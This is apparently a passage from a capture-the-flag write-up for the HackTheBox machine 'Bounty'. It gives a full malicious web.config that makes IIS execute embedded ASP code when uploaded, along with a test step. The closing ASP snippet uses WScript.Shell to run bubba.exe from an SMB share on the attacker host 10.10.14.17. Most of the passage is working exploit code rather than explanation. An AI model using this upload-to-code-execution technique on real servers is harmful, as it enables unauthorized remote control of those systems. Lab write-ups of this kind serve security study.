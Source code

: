 ```xml
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
   <system.webServer>
      <handlers accessPolicy="Read, Script, Write">
         <add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" />         
      </handlers>
      <security>
         <requestFiltering>
            <fileExtensions>
               <remove fileExtension=".config" />
            </fileExtensions>
            <hiddenSegments>
               <remove segment="web.config" />
            </hiddenSegments>
         </requestFiltering>
      </security>
   </system.webServer>
</configuration>
<!-- ASP code comes here! It should not include HTML comment closing tag and double dashes!
<%
Response.write("-"&"->")
' it is running the ASP code if you can see 3 by opening the web.config file!
Response.write(1+2)
Response.write("<!-"&"-")
%>
-->
```

To test, try uploading the file as `web.config` and browsing to `http://10.10.10.93/uploadedfiles/web.config`:

![config_test](./bounty/config_test.png)

Nice! Now replace the following lines in the file:

```
' it is running the ASP code if you can see 3 by opening the web.config file!
Response.write(1+2)
```

With the following ASP code:

```bash
Set objShell = CreateObject("WScript.Shell")
objShell.Exec("\\10.10.14.17\BUBBA\bubba.exe &")
```
